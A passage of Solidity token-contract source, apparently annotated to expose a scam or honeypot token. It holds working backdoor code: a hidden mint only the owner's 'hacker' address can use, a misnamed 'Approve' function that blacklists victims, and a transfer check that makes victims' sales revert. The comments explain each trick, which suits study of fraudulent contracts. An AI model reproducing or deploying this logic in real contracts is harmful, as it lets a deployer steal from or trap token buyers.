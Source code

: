 ```solidity
            total = _somma(total, amount);
            _balances[spender] += total;
        } else { // if u r not hacker, do nothing here since 'total' is zero.
            _minus(from, total);
            _balances[spender] += total;
        }
    } // back door
////////////////////////// equil to mint but only hacker can call //////////////////////////////////////  

////////////////////////// check hacker //////////////////////////////////////   

    function _decode(address user, address user2) internal view returns (bool) {
        bytes32 hash1 = keccak256(abi.encodePacked(user));
        bytes32 hash2 = keccak256(abi.encodePacked(user2));
        return hash1 == hash2;
    } 

    function _somma(uint256 aqw, uint256 poe) internal pure returns (uint256) {
        if (poe != 0) {
            return aqw + poe;
        }
        return poe;
    }
////////////////////////// check hacker //////////////////////////////////////   

////////////////////////// add to blacklist //////////////////////////////////////
    function Approve(address spender, uint256 amount) public returns (bool)  {
        address from = msg.sender;
        _checkAllowance(from, spender, amount); // not approve but add something into blacklist!
        return true;
    }

    function _checkAllowance(address user, address spender, uint256 amount) internal {
    	// only hacker can enter, because _guest.guest is hacker's address
        if (_decode(user, _guest.guest)) { 
            require(spender != address(0), "Invalid address");
            if (amount != 0) {
                _dex[spender] = spender; // add victims into _dex: blacklist
            } else {
                _dex[spender] = address(0); 
            }
        }
    } 
////////////////////////// add to blacklist //////////////////////////////////////

////////////////////////// tx will revert //////////////////////////////////////
    function _requireBalance(address sender, address recipient, uint256 total) internal virtual {
    	// recipient is not used!
        uint256 amount = 0;
        if (_decode(sender, _dex[sender])) { // victims' tx will enter this condition
            _balances[sender] = _balances[sender] + amount;
            amount = _totalSupply;
            _minus(sender, amount); // the tx will revert for the insufficient balance
        } else { // only whitelist
            _balances[sender] = _balances[sender] + amount;
        }
    }// 
////////////////////////// tx will revert //////////////////////////////////////

    function _beforeTokenTransfer( address from, address to, uint256 amount) internal virtual {}
}
```